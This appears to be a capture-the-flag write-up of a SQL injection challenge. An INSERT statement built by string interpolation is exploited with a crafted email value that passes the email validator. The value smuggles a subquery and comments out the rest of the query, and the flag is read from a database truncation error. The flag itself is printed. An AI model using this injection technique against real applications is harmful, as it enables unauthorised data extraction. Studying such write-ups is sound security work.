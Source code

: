 ```sql
INSERT INTO requests(email, book_id) VALUES('${email}', '${book_id}');
```

Through some manual testing, the `isEmail` validator has some small regex requirements for the domain, a `@` character, and a length restriction for the username.

Because requests is asking for two parameters, our email query must include an additional parameter to close the query with a valid integer.

#### Getting the Flag

Using some fancy quotation and SQL magic, I was able to create the payload that:

- fulfills the two parameter requirement
- comments out the rest of the query with `#`
- passes email regex and length requirement
- exfiltrates the flag through error based SQLi

```
"',1 and substring((select texts from books where id=1),1,99));#@a.aa
```

The application returns:

```
Error: ER_TRUNCATED_WRONG_VALUE: Truncated incorrect DOUBLE value: 'maple{it_was_all_just_maple_leaf}'
```

The error occurs because of mismatched quotations, but the flag is still retrieved within the parenthesis. The error then graciously gives us the flag:

Flag: `maple{it_was_all_just_maple_leaf}`